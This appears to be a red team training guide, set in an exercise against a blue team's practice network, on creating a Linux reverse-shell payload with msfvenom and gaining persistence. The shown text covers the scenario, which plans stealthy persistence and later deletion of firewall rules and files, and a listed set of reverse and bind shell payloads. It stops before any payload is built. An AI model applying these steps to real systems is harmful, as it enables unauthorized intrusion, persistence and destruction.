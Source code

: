 # Guide   

This is a guide to setting up a reverse shell and gaining persistence in the environment. 

#### Table of Contents   
* [Scenario](#scenario)     
* [Creating your Payload](#payload)   
* [Receiving our Callback](#callback)   
* [Gaining Persistence](#persistence)   
* [Disruption](#disruption)   
* [Destruction](#destruction)


## <a name="scenario">Scenario</a>

We were told to create a payload that will be ran on the blue team training environment 45 minutes after the blue team powers on and starts hardening their network. Our goal was to stealthily persist as many systems as possilble day one. Day two, if we still had any persistence, we were to make our presence known to the defenders.(EX: Change background, delete firewall rules and remove files)

### Hints   

* Linux x64   
* firewall is up but systems require 80,443,53 outbound


## <a name="payload">Creating your Payload<a/>

There are many ways to create a payload, but one of the easiest is by using msfvenom.  
Finding a payload to use can be done by listing all payloads with `msfvenom -l payloads`   
We can further filter this down to fit our requirements by piping this to grep.   

```console
root@kali:~# msfvenom -l payloads | grep linux/x64
    linux/x64/exec                                      Execute an arbitrary command                               
    linux/x64/meterpreter/bind_tcp                      Inject the mettle server payload (staged). Listen for a connection
    linux/x64/meterpreter/reverse_tcp                   Inject the mettle server payload (staged). Connect back to the attacker
    linux/x64/meterpreter_reverse_http                  Run the Meterpreter / Mettle server payload (stageless)    
    linux/x64/meterpreter_reverse_https                 Run the Meterpreter / Mettle server payload (stageless)    
    linux/x64/meterpreter_reverse_tcp                   Run the Meterpreter / Mettle server payload (stageless)    
    linux/x64/pingback_bind_tcp                         Accept a connection from attacker and report UUID (Linux x64)
    linux/x64/pingback_reverse_tcp                      Connect back to attacker and report UUID (Linux x64)       
    linux/x64/shell/bind_tcp                            Spawn a command shell (staged). Listen for a connection    
    linux/x64/shell/reverse_tcp                         Spawn a command shell (staged). Connect back to the attacker
    linux/x64/shell_bind_ipv6_tcp                       Listen for an IPv6 connection and spawn a command shell    
    linux/x64/shell_bind_tcp                            Listen for a connection and spawn a command shell          
    linux/x64/shell_bind_tcp_random_port                Listen for a connection in a random port and spawn a command shell. Use nmap to discover the open port: 'nmap -sS target -p-'.                                                                 
    linux/x64/shell_find_port                           Spawn a shell on an established connection                 
```